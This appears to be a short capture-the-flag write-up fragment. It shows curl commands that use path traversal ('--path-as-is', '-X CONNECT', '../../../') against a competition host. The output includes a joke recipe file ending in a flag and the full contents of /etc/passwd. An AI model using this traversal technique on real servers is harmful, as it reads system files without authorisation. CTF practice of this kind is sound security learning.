```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```

```
 curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

![image](https://user-images.githubusercontent.com/49941629/166076085-f02a43e6-9399-4db3-8d96-3adb3dd3e5fc.png)


![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)
